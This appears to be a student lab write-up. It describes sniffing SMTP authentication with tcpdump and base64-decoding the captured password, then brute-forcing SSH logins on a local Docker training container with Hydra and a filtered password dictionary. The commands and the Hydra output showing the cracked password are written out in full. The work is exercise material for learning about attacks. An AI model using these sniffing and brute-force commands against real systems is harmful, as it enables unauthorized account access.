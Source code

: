 ## Attack is the best defense

### For task 1 -


> Process
>> in `terminal 1`
```
sudo tcpdump -i eth0 port 587 -w smtp_capture.pcap
```

>> in `terminal 2`
```
./user_authenticating_into_server
```
when `./user_authenticating_into_server` finishes executing, stop process in `terminal 1`

then
`tcpdump -A -r smtp_capture.pcap` to inspect the sniffed data

#### Result
I got `bXlwYXNzd29yZDk4OTgh` as the probable password

using `echo "bXlwYXNzd29yZDk4OTgh" | base64 --decode` I got `mypassword9898!` as the password


### For task 2 -

> Process
>> After starting the docker container/server - `sudo docker run -p 2222:22 -d -ti sylvainkalache/264-1` and cleaning the ./password_dictionary.txt file (retaining only passwords of char. length 11) - `sed -i '/^.\{11\}$/!d' password_dictionary.txt`

I used `hydra -l sylvain -P ./password_dictionary.txt -s 2222 ssh://127.0.0.1`

#### Result
I got the hydra response
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-07 13:55:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 22495 login tries (l:1/p:22495), ~1406 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
```
with `password123` as the password

### Resources
password_dictionary.txt source is the Kaggle bruteforce-database-password-dictionaries originally named `1000000-password-seclists.txt`
[Download Repo](https://www.kaggle.com/datasets/taranvee/bruteforce-database-password-dictionaries?resource=download)

